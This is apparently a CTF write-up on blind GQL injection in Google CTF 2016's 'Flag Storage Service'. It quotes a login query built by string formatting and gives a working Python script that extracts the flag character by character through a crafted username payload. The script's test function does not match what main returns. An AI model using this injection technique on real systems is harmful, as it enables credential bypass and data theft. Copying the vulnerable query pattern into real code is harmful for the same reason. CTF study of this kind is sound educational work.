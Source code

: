 # Do a GQL LIKE query

## Introduction

you can think of a GQL kind as a SQL table, a GQL entity as a SQL row, and a GQL property as a SQL column. However, a SQL row-column lookup is limited to a single value, whereas in GQL a property can be a multiple value property.

GQL offers limited set of commands comparing to SQL, for example, there's no LIKE operator in GQL.

So, here I will show you how to mimic a LIKE operator in GQL.

> This trivia was discovered in Google 2016 CTF web challenge `Flag Storage Service`.

The most important part of code in this challenge is that we can clearly discover a potential injection point:

```python
@classmethod
def Login(cls, username, password):
    query = "SELECT * FROM User WHERE username = '%s'" % username
    if password is not None:
        query += " AND password = '%s'" % password
```

After the processing procedure, it's importing `google.appengine.api` and executing `qry = ndb.gql(query)`.

Now, if you want to exploit it with normal SQL injection techniques, you'll soon find out GQL almost lacks everything you need, such as LIKE operator.

But, thanks to this [discussion](https://groups.google.com/forum/#!topic/google-appengine-python/pw6jJdwUOAU), we can mimic one in GQL finally.

## Impact

Therefore, it turns out to be a normal blind SQL injection, and CTF-quality code is provided:

```python
import urllib2
import ssl

def main():
    gcontext = ssl.SSLContext(ssl.PROTOCOL_TLSv1)
    prev = None # to remember which position is the actual flag fragment
    count = 0 # final determination to end the loop

    flag = ""
    url = "https://next-bitter-flag.ctfcompetition.com/login"
    data = "username=manager' AND password > '"

    should_restart = True
    while should_restart:
        should_restart = False
        for asc in xrange(32, 127):
            print "[Debug] Try {0}".format(asc)
            r = urllib2.urlopen(url, data="{0}{1}".format(data, chr(asc)), context=gcontext).read()
            if r.__sizeof__() == 2185 and asc == 126: # at the last position
                if flag[-1] == '|':
                    flag = flag[:-1] + '}'
                    print "This is your final flag: {0}".format(flag)
                    break
                else:
                    flag = "".join([flag, chr(asc)])
                    data = "".join([data, chr(asc)])
                    print flag
                    should_restart = True
                    break
            elif r.__sizeof__() == 2185:
                prev = chr(asc)
            elif r.__sizeof__() == 2194 and prev is not None:
                flag = "".join([flag, prev])
                data = "".join([data, prev])
                print flag
                should_restart = True
                break

def test():
    assert main() == 'CTF{,Why,did,the,grape,stop,in,the,middle,of,the,road---Because,he,ran,out,of,juice,}'

if __name__ == '__main__':
    print main()
```

## Reference

1. [GQL Reference](https://cloud.google.com/datastore/docs/reference/gql_reference)
2. [Is it possible to do a Gql LIKE query?](https://groups.google.com/forum/#!topic/google-appengine-python/pw6jJdwUOAU)
